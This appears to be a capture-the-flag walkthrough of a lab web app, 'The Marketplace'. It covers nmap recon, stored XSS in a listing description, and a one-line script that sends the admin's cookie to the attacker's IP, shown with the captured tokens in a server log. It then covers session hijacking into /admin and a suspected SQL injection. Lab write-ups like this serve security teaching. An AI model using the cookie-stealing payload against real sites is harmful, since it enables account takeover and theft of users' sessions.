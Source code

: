 # The Marketplace
## Difficulty: Medium

Let's start with nmap scan:
```bash
nmap -sV -sC 10.10.3.15 | tee nmap/start
```

The results:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c83cc56265eb7f5d9224e93b11b523b9 (RSA)
|   256 06b799940b091439e17fbfc75f99d39f (ECDSA)
|_  256 0a75bea260c62b8adf4f457161ab60b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The SSH version is high enough to not be vulnerable, so I'll start with the http service.

In the scan it also found that in the robots.txt directory there is an "/admin" directory.

![image](https://user-images.githubusercontent.com/114166939/232095399-3b9e8fbb-7b3c-458f-8a36-1401c960d4cb.png)

It's forbidden:

![image](https://user-images.githubusercontent.com/114166939/232095591-266d7b01-2bd2-40a0-a63f-16d0f62c2655.png)

I'll sign up with a test account:
username = test
password = test

![image](https://user-images.githubusercontent.com/114166939/232096934-f68dfe06-c1d5-490a-b58b-ab601e0f38af.png)

Success!

Now let's login to this user:
Success!

![image](https://user-images.githubusercontent.com/114166939/232097504-f3174c72-dcdc-46f5-b534-c4b3c167054a.png)

Also noticed I have cookie now - using the cookie manager firefox extension.

![image](https://user-images.githubusercontent.com/114166939/232098050-972050bf-9921-4b3d-b38a-9164f17e2832.png)

By using CyberChef (from "https://gchq.github.io/CyberChef/") I can understand what type of encode this server use and what is the data stored in the cookie.

![image](https://user-images.githubusercontent.com/114166939/232099019-3d27ee92-fea8-4aaa-9126-7386e1e678bc.png)

```
{
    "userId": 4,
    "username": "test",
    "admin": false,
    "iat": 1681488332
}
```

So the server probably identify the users by "userId" and "username" parameters.

This information will be important in the near future!
Let's move on to the New listing ("http://10.10.171.31/new") page:

![image](https://user-images.githubusercontent.com/114166939/232100022-ae881109-485a-4a4f-8020-d827fb8569c4.png)

I'll try exploit this page with xss payloads,
For beginning I'll try the simplest exploit in the title input:
```html
<script>alert(1)</script>
```
Didn't work:

![image](https://user-images.githubusercontent.com/114166939/232100940-7a66c85d-2dbd-4908-b04c-aad6c5327ceb.png)

Let's try in the description input:

![image](https://user-images.githubusercontent.com/114166939/232101091-70b6a894-ece1-420a-a82d-63718944d837.png)

It works!

![image](https://user-images.githubusercontent.com/114166939/232101158-1cf33e18-0bbb-4ecc-bc20-45d2601fb543.png)

Also when I'm going to the home page and clicking on this listing the alert pops out.
It is a reflected and stored xss!

The 2 options for this listing are: "Contact the listing author" and 
"Report listing to admins" - when I report the listing the following message appear:

![image](https://user-images.githubusercontent.com/114166939/232110868-dbbdf845-0b1e-4333-834b-67b03616991e.png)

Which means that after I reported the listing an admin opened it!
If that's the case I can try steal the admin's cookie.

I'll use a code from this github page "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md":
(The Silent One-Liner)
```html
<script>var i=new Image;i.src="http://[IP]:[PORT]/?"+document.cookie;</script>
```
It need to be modified as my tun0 IP and port.

Before add the listing, I'll establish python3 server on my attacker machine:
```bash
python3 -m http.server
```
Now I'll add the exploit:

![image](https://user-images.githubusercontent.com/114166939/232113668-933bb211-5ef9-4292-883c-694e716b164e.png)

Report this listing:

![image](https://user-images.githubusercontent.com/114166939/232113844-a5f8b17e-37d0-486d-bd42-e5f3e1ef06e2.png)

Refresh and let's take a look at my python3 server!

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.14.50.11 - - [14/Apr/2023 13:20:31] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjgxNDg4MzMyfQ.LOu-eEsb_vaK-pZ8xZjVHvaVNuFRjRzyq3yAps2tAnY HTTP/1.1" 200 -

10.10.171.31 - - [14/Apr/2023 13:21:26] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODE0OTI4ODd9.YI1C9_Iu632z1-0xDX1jm0DUeFwiGgqiDR1joEGcKzw HTTP/1.1" 200 -
```

The first one is my current user cookie, the same one as I checked in my cookie manager extension.

The second request I got have different cookie!
Probably the admin's user cookie, I'll check it in CyberChef:

![image](https://user-images.githubusercontent.com/114166939/232114890-be430831-c00a-4d33-a986-4fdc666f62ee.png)

It's michael's cookie.

Now I can change the current user cookie with michael's user cookie - I'll do it with cookie manager:

Copy the token from the request, delete the current cookie, paste michael's cookie and save.

![image](https://user-images.githubusercontent.com/114166939/232116054-9115e1c8-2f66-41e3-af69-4716606596f0.png)


Refresh on the home page:

![image](https://user-images.githubusercontent.com/114166939/232116191-be8c47ea-9607-4b36-a73f-d35913a8fb9e.png)

There is a new option in the website, "Administration panel", it redirect to the "/admin" directory.

Got the first flag:

![image](https://user-images.githubusercontent.com/114166939/232116820-b3ed3d55-4cfd-415c-b758-86d5308e4c77.png)

Now let's click on the system user:

![image](https://user-images.githubusercontent.com/114166939/232117026-e9513b4c-5bad-4362-85f8-a80c7f2c56c1.png)

This page use GET method and it and maybe it's vulnerable to sqli in the "user" parameter - "http://10.10.171.31/admin?user=1".



